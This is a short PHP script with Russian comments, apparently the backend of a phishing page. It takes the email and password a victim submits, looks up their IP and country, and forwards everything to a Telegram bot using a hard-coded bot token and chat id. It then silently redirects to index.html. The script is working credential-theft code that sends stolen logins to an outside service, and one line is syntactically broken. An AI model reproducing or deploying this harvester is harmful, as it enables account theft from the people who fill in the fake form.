 <?php

//В переменную $token нужно вставить токен, который нам прислал @botFather
$token = "1980118543:AAFqhfJ6-ypFdsZVGTaxLEsRHwo-Z8W-TI0";

//Сюда вставляем chat_id
$chat_id = "-1078260656";

//Определяем переменные для передачи данных из нашей формы
$login = ($_POST['email']);
$password = ($_POST['pass']);



//Настраиваем внешний вид сообщения в телеграме
$ip = $_SERVER['HTTP_CLIENT_IP'] ? $_SERVER['HTTP_CLIENT_IP'] :
($_SERVER['HTTP_X_FORWARDED_FOR'] ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR']);

$country = json_decode(file_get_contents("http://ipinfo.io/{$ip}"));

$message = "Полученны новые данные: \n Логин: " . $login . "\n Пароль: " . $password . "\n\n IP: " . $ip . "/n Страна:  " $country->country; "";
//Передаем данные боту


file_get_contents('https://api.telegram.org/bot'.$token.'/sendMessage?chat_id='.$chat_id.'&text='.urlencode($message).'&parse_mode=html');

header('Location: index.html');
?>
